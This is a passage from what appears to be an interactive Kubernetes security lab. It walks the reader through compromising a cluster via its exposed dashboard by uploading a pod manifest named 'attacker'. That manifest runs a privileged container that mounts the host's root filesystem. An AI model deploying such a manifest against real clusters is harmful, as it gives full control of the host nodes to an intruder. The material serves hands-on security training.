 ## Inside dashboard

Now as shown in the video lets compormise the cluster from the dashboard

1. Now lets add our malicious file into the cluster, press ADD sign button in the navbar
2. In the create from input copy-paste this code
```
apiVersion: v1
kind: Pod
metadata:
    name: attacker
    labels:
      app: attacker
spec:
    containers:
        - name: attacker
          image: hackingkubernetes/api:latest
          imagePullPolicy: IfNotPresent
          volumeMounts:
              - name: hostsvolume
                mountPath: /attacker
          ports:
              - containerPort: 80
          securityContext:
              privileged: true
    volumes:
        - name: hostsvolume
          hostPath:
              path: /

```{{copy}}
3. Press Upload

## Configure our webapp

After the above code executed run this command to run our webapp and API server
`bash pods.sh`{{execute HOST1}}

Check if pods are created
`kubectl get pods`{{execute HOST1}}
